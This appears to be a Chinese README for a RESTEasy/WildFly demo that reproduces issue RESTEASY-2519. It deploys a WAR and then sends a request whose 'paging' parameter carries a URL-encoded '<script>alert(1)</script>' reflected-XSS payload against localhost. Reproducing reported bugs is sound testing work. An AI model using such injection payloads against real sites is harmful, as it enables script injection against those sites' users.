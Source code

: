 ## 相关issues

* https://issues.redhat.com/browse/RESTEASY-2519
* [WFLY-7419 Include RESTEasy WADL module - Red Hat Issue Tracker](https://issues.redhat.com/browse/WFLY-7419)
* [RESTEasy: RESTEasy WADL Grammar Support| JBoss.org Content Archive (Read Only)](https://developer.jboss.org/en/resteasy/blog/2018/10/31/resteasy-wadl-grammar-support)


## 部署至wildfly

```bash
[standalone@localhost:9990 /] deploy resteasy-wildfly/target/resteasy-wildfly.war --force
```

## RESTEASY-2519

正常访问：

```bash
$ http "localhost:8080/resteasy-wildfly/rest/users?paging=1"
```

访问有问题的服务：

```bash
$ http "http://localhost:8080/resteasy-wildfly/rest/users?paging=0%2c-1sp137%3Cscript%3Ealert(1)%3C%2fscript%3Emzx4u"
```

